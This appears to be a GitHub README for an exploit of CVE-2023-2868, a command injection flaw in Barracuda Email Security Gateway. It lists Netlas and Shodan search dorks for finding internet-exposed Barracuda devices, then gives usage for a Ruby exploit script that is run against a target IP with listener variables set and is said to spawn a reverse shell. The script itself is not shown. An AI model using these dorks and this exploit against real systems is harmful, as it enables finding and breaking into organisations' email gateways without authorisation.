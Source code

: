 # CVE-2023-2868
Barracuda ESG Command Injection 
- NetLas Dork:
```
http.headers.server:"BarracudaHTTP"
```
[Search Link](https://app.netlas.io/responses/?q=http.headers.server:"BarracudaHTTP")


- Shodan dorks:
```
http.waf:"Barracuda (Barracuda Networks)"
```
```
html:app_common::nonetwork.title
```
```
html:app_common::nonetwork.message
```
```
http.favicon.hash:1436966696
```
- Usage
Set LHOST and RHOST variables to your listener.

```
ruby exploit.rb <TARGET_IP>
```

This will spawn a reverse shell.
